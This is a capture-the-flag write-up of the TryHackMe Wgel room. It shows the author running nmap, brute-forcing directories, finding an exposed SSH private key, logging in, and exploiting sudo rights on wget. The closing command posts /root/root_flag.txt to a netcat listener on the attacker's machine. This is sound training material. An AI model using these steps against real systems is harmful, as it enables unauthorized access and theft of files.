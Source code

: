 # Wgel CTF

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png)

## Difficulty = Easy

***

Running our nmap scan, we discovered 2 ports

```bash
# Nmap 7.94 scan initiated Fri Oct 20 12:19:06 2023 as: nmap -p80,22 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.172.154
Nmap scan report for 10.10.172.154
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 12:19:26 2023 -- 1 IP address (1 host up) scanned in 20.07 seconds
```



Navigating to port `80/HTTP` we have a default Apache web page


![](https://i.imgur.com/cXdxc2a.png)



Viewing **Page-Source** we found a username called **"Jessie"**


![](https://i.imgur.com/Md6J5Nk.png)

Performing dir/file bruteforce we found a sitemap page

![](https://i.imgur.com/LFEDmWj.png)

Navigating to the `/sitemap` page we have a website 


![](https://i.imgur.com/ieSsOAA.png)



After much enumeration it lead to nothing, so i decided to run my dir/file bruteforce again, this time on `/sitemap`


![](https://i.imgur.com/9NGmEtG.png)


As we can see everything here looks normal except from `/.DS_store` and `/.ssh`, it looks like **DS_Store** doesn't seem to contain important information


![](https://i.imgur.com/rcON17e.png)



Navigating to `/.ssh` we have an `id_rsa` file

![](https://i.imgur.com/pMnnZaB.png)

Downloaded the file using `wget`


![](https://i.imgur.com/r2bJoF3.png)

Now let try and login with the username we found, "Jessie"


![](https://i.imgur.com/9cXZQYj.png)

Yeeppee, we are logged in, running `sudo -l` we have permissions to run `wget` with the sudo command

![](https://i.imgur.com/27sbSLN.png)

Generally there are ways to get root with `wget`, but over here, we would just download the root flag. On our attacker machine startup netcat with

```bash
$ nc -lvnp 80 >> root.txt
```

On target machine run the following command to transfer file

```bash
$ sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.9.75.133
```

![](https://i.imgur.com/aVQDTFq.png)

Therefore, we have the root flag downloaded to `root.txt` in our attacker machine

![](https://i.imgur.com/m2RWtKB.png)


That will be all for today ✈️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

